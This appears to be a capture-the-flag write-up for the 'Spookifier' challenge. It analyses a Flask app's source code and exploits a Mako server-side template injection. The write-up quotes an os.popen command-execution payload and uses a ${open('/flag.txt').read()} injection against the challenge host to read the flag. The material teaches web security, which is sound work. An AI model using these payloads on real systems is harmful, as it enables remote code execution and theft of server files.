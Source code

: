 # Spookifier

Difficulty:: #easy

## Introduction
The box is a flask web app where you can pass a text parameter via URL get parameters to get the text formated under four rules. But  one of the format rules is vulnerable to **Server Side Template Injection SSTI** in marko template engine. So you can inject python code, in this case to retrieve the flag.

## Target data

- `Spawn Docker`: `46.101.26.108:30376` 
- `Source Code`: `web_spookifier.zip`


## Challenge Description
*There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?*


## Enumeration
```
http://46.101.26.108:30376/
```
![2-index.png](./static/2-index.png)

First download the source code and identify a flask app, with two  [`blueprints`](https://flask.palletsprojects.com/en/2.2.x/api/#flask.Blueprint) (that is a way to organize the endpoints), group them according to how ther functions are related. So here all endpoinst will be in `web_spookifier/challenge/application/blueprints/routes.py`.

```shell
magor$ tree web_spookifier
web_spookifier
├── Dockerfile
├── build-docker.sh
├── challenge
│   ├── application
│   │   ├── blueprints
│   │   │   └── routes.py
│   │   ├── main.py
│   │   ├── static
│   │   │   ├── css
│   │   │   │   ├── index.css
│   │   │   │   └── nes.css
│   │   │   └── images
│   │   │       └── vamp.png
│   │   ├── templates
│   │   │   └── index.html
│   │   └── util.py
│   └── run.py
├── config
│   └── supervisord.conf
└── flag.txt
```

There is only one endpoint, a GET request that accept a `text` parameter that is process by the `spookify()` function and it returns to render in the main page:

```Python
# web_spookifier/challenge/application/blueprints/routes.py
# ...SNIP...
@web.route('/')
def index():
    text = request.args.get('text')
    if(text):
        converted = spookify(text)
        return render_template('index.html',output=converted)
    
    return render_template('index.html',output='')
```

I write `Testing` to see what is render in the main page, and it seems a text converted:
```
http://46.101.26.108:30376/?text=Testing
```
![2-index-test.png](./static/2-index-test.png)

Now, I am gonna dig into the `spookify()` function that checking the import: `from application.util import spookify` I can find it inside the `web_spookifier/challenge/application/util.py` file

```python
# web_spookifier/challenge/application/util.py
# ...SNIP...

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)

```

The function call the `change_font()` function, that is the same `utils.py` file, after that call the `generate_render()` and return it to render in the `index.html`.

Now dig into these two functions.

### change_font

```python
# web_spookifier/challenge/application/util.py
# ...SNIP...
font1 = {
	'A': '𝕬',
	'B': '𝕭',
# ...SNIP...
	'z': '𝖟',
	' ': ' '
}

# ...SNIP...

font4 = {
	'A': 'A', 
	'B': 'B',
# ...SNIP...
	'0': '0',
	' ': ' ',
}

# ...SNIP...
def change_font(text_list):
➊	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
➋	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' '))➌ for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

➍	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts
# ...SNIP...
```

Look that it converts the string input `text_list` to a list ➊, i can check it open Python:

```python
>>> [*"testing"]
['t', 'e', 's', 't', 'i', 'n', 'g']
```

Next, it defines a lambda function ➋ that recieve two parameters `text` and `font_type`, If we check  in 
➍ , `text` will be `text_list`, and the `font_type` are 4 options `font1` to `font4` . 


What it does the lambda function is a loop ➌ to every element in the list  `text` . And wit that character `i`  it looks into the globals variables with `globals()[font_type]` to map each character with a corresponding according de dictionary definition in `font1` to `font4`.


### generate_render

```python
# web_spookifier/challenge/application/util.py
# ...SNIP...
def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

```

The `generate_render` funciton define a HTML table structure, and use the [`str.format()`](https://docs.python.org/3/library/stdtypes.html#str.format) method. to add the `converted_fonts` to ech row in the HTML.

So it seems that we potencially could perform a [Server Side Template Injection SSTI](), due to indirectly we can control the data that is render. But, first we need to know which render engine is use flask. And to answer this, we only have to read the `DockerFile` :

```DockerFile
# Install dependencies
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0
# ...SNIP...
```

`Pip` installl `Flask` and `mako` , search in google found that [mako](https://www.makotemplates.org/) is a template library. So now that I know the tecnology, I search and found in hacktricks [SSTI mako python](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#mako-python)  the following payload:

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

But before doing that we can test some more easy like the classic payload `${7*7}`:
```
http://46.101.26.108:30376/?text=%24%7B7*7%7D
```
![2-index-payload.png](./static/2-index-payload.png)

It works!. Now we have to build de payload to get the flag!
## Foothold

We have to know the current limitations we have, and is that our input would be map it according to the four fonts available, the first three fonts only map the alphabet, but the `font4` also map numbers and chars like :

```
'$', '(', ')', '{', '}', '.', "'", '"', '/', '-', '|', '*', '+', '1', '2', '3', '4', '5', '6', '7', '8', '9', '0', ' '
```

So we only can use those characters, with that in mind I made the following payload
```
${open('/flag.txt').read()}
```

> Remember that in the `Dockerfile` we know where is store the `flag.txt`

```
http://46.101.26.108:30376/?text=%24%7Bopen%28%27%2Fflag.txt%27%29.read%28%29%7D
```
![2-index-attack.png](./static/2-index-attack.png)


